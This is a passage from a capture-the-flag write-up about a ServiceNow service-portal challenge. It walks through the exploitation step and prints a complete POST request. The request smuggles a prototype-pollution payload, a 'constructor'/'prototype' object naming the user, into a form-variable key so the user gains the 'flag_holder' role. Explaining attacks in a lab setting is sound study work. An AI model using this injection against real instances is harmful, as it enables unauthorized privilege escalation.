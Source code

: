So, we can get our user's `sys_id` by submitting the application form in the JSON stringified `submitter` value.

> Note: There're many ways to retrieve our user's `sys_id`, this is just one of them.

## Exploitation

Armed with above information, we can finally get the flag by having the `flag_holder` role!

To do so, we'll first **jot down our user's `sys_id` and `question_toilet_flush`'s value** when we submit the application form.

In my case, it's **`sys_id = 884a802a830e82103f6120d0deaad322`, `question_toilet_flush = 92cb91c7834246103f6120d0deaad34b`**.

> Note: Everyone's `question_toilet_flush` value is different, that's why you'll need to jot it down. 

**Then, send the following POST request on the challenge's PDI:**
```http
POST /api/sn_sc/v1/servicecatalog/items/a743658ac30202102a53fdec050131aa/order_now HTTP/1.1
Host: dev254334.service-now.com
Cookie: <YOUR_COOKIES>
Content-Type: application/json;charset=utf-8
Content-Length: 757
X-Usertoken: <YOUR_Usertoken>
X-Transaction-Source: Interface=Web,Interface-Name=SP,Interface-Type=Service Portal,Interface-SysID=81b75d3147032100ba13a5554ee4902b
X-Use-Polaris: false

{"sysparm_quantity":"1","variables":{"formatter":"true","do_you_want_to_be_a_flag_holder":"Yes","question_ctf_player_pickup_line":"anything","{\"time\":\"5/13/2024, 12:56:31 PM\",\"submitter\":\"884a802a830e82103f6120d0deaad322\",\"submitterName\":\"\",\"constructor\":{\"prototype\":{\"user\":\"<YOUR_sys_id>\"}}}","question_color_palette_of_meal":"HSL(182, 65%, 34%) | HSL(45, 92%, 71%) | HSL(278, 45%, 63%) | HSL(94, 22%, 51%)","question_describe_food_taste":"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA","sdctf_share":"No","question_toilet_flush":"<YOUR_question_toilet_flush>","question_favorite_ice_shape":"ic_klein_bottle"},"sysparm_item_guid":"7f59b287c34ac210e706d54d05013193","get_portal_messages":"true","sysparm_no_validation":"true","engagement_channel":"sp","referrer":"popular_items"}
```

> Remember replace the `<YOUR_COOKIES>`, `<YOUR_Usertoken>`, `<YOUR_sys_id>`, and `<YOUR_question_toilet_flush>` with yours value.
